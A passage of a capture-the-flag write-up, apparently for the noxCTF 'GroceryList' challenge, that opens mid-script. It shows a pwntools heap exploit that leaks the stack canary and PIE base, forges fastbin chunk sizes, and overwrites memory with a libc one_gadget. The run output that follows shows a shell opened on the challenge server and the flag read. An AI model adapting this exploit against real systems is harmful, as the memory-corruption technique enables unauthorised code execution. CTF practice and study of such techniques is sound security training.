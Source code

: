 ```python
pie = u64(dump_all()[1][7:].ljust(8, '\x00')) - 0x1380
log.info('canary ' + hex(canary))
log.info('pie ' + hex(pie))

add_empty(3, 4)
remove_item(3)
remove_item(3)
payload  = p64(0) * 13
payload += p64(0x71)
payload += p64(0) * 13
payload += p64(0x71)
payload += p64(pie + 0x20202d)
edit_item(2, payload)
add_empty(3, 2)

remove_item(2)
# gdb.attach(r, gdbcmd.format(pie))
remove_item(2)
remove_item(2)

payload  = p64(libc + 0x45216)
payload += p64(0) * 2
payload += p64(canary)
payload += p64(pie + 0x1380)
payload += p64(libc + 0x45216)
edit_item(0, payload)

payload  = '\x00' * 3
payload += p64(stack - 0xb)
payload += p64(stack - 2 + 16)
payload += p64(pie + 0x20203d)
payload += p64(0) * 18
payload += p64(libc + 0x45216)
edit_item(2, payload)

_exit()
r.interactive()
```

## flag
```
λ › python solve.py chal.noxale.com 1232
[+] Opening connection to chal.noxale.com on port 1232: Done
[*] stack 0x7ffec128fb3b
[*] libc 0x7fdf29bb9000
[*] canary 0xedc677284751c5
[*] pie 0x55a4c8cd3000
[*] Switching to interactive mode

Goodbye

$ ls
GroceryList
flag
$ cat flag
noxCTF{I_L0ve_F0rg1ng_Chunk5}
$ 
[*] Closed connection to chal.noxale.com port 1232
```